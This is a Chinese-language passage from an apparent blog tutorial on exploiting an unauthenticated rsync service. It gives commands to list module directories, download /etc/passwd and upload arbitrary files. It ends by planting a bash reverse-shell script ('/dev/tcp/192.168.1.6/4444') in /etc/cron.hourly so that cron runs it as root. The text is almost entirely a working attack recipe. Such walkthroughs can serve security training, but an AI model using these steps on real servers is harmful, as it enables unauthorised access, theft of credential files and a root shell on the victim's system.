 **查看模块文件**

 获取到目录之后，只需在路径后添加目录名即可查看目录中的文件  
   这里查看 src 目录

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaobgo36x6JRibVchavsdq83dabMmof4icZRzcPLiaYCicRicHrAQ5sIe1xlA/640?wx_fmt=jpeg)

**下载任意目录文件**

```
rsync -av ip::src
```

    假如下载 / etc/passwd 文件到 /opt / 目录下

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUajQ7D4rWItkAdicPlJsGE8gddXmjRgLYzTgFvT2q18YKDw2QUberWezQ/640?wx_fmt=jpeg)

    查看 passwd.txt 文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUahenkeGR3RRiaLo3hddjVHyqBx4ic735uicT2NM7bF2No4F1ykVO83qZibQ/640?wx_fmt=png)

**也可以向目标系统上传任意文件**

```
rsync -av crontab1 rsync://192.168.0.113:873/src/etc/crontab1

//rsync -av 文件路径 rsync://ip:873/目标系统文件路径
```

**反弹 shell**

    1. 下载 cron 定时任务配置文件并查看任务内容

```
rsync -av rsync://ip/src/etc/crontab crontab.txt
cat crontab.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaBMicsRiaj905JC8WmyDTltjrfxiajzGH1IaI6dZ4E8LJiaH9yiahykQUTsg/640?wx_fmt=jpeg)

```
//17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
//表示17分钟会启动/etc/cron.hourly目录下文件的任务
```

    2. 攻击机创建一个 shell 文件

```
touch shell
//文件写入反弹shell命令
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.1.6/4444 0>&1
```

    3. 传入 /etc/cron.hourly 目录下，写入到 cron.hourly 下文件的任务就会启动

```
rsync -av shell rsync://ip:873/src/etc/cron.hourly
```
